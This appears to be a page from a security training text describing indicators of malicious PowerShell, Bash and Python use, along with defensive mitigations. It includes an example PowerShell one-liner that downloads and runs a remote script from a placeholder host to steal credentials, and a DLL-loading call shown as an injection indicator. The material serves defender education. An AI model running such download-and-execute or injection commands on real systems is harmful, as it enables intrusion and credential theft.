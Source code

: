 ## POWERSHELL MALICIOUS INDICATORS

There are numerous exploit frameworks to leverage PowerShell functionality, such as PowerShell Empire, PowerSploit, Metasploit, and Mimikatz. Some suspicious indicators for PowerShell execution include the following:

* Cmdlets such as Invoke-Expression, Invoke-Command, Invoke-WMIMethod, New-Service, Create-Thread, Start-Process, and New-Object can indicate an attempt to run some type of binary shellcode. This is particularly suspicious if combined with a DownloadString or DownloadFile argument. One complication is that cmdlets can be shortened, assisting obfuscation. For example, Invoke-Expression can be run using IEX.

powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://badsite.foo/DoEvil.ps1'); Do-Evil -StealCreds"

* Bypassing execution policy can also act as an indicator. The PowerShell code may be called as a Base64 encoded string (-enc argument) or may use the -noprofile or -ExecutionPolicy Bypass arguments.
* Using system calls to the Windows API might indicate an attempt to inject a DLL or perform process hollowing, where the malicious code takes over a legitimate process:

\[Kernel32]::LoadLibrary("C:\Users\Foo\AppData\Local\Temp\doevil.dll")

* Using another type of script to execute the PowerShell is also suspicious. For example, the attacker might use JavaScript code embedded in a PDF to launch PowerShell via a vulnerable reader app.

The big problem with PowerShell indicators is distinguishing them from legitimate behavior. The following techniques can be used to assist with this:

* Use group policy to restrict execution of PowerShell to trusted accounts and hosts.
* Use group policy execution control to run scripts only from trusted locations.
* Consider use of Constrained Language Mode ([devblogs.microsoft.com/powershell/powershell-constrained-language-mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)) and signed scripts to limit the ability of exploit code to run on high-value target systems.
* Use PowerShell logging ([docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7](https://docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7)) and the Antimalware Scan Interface ([docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)) to detect and prevent obfuscated and suspicious code.
* Prevent the use of old PowerShell versions to mitigate the use of a downgrade attack to bypass access controls.

BASH AND PYTHON MALICIOUS INDICATORS

Most of the web runs on Linux, and Linux has proven remarkably resilient to attacks (meaning that it is able to withstand or recover quickly from difficult situations), given the high-value of the assets that depend on it. Most exploits of Linux systems depend on weak configuration, and/or vulnerabilities in web applications. In Linux, the command line is usually Bourne Again Shell (Bash). Many Linux systems have Python enabled as well. Python scripts or batch files of bash commands can be used for automation tasks, such as backup, or for malicious purposes.

A malicious script running on a Linux host might attempt the following:

1. Use commands such as whoami and ifconfig/ip/route to establish the local context.
2. Download tools, possibly using wget or curl.
3. Add crontab entries to enable persistence.
4. Add a user to sudo and enable remote access via SSH.
5. Change firewall rules using iptables.
6. Use tools such as Nmap to scan for other hosts.
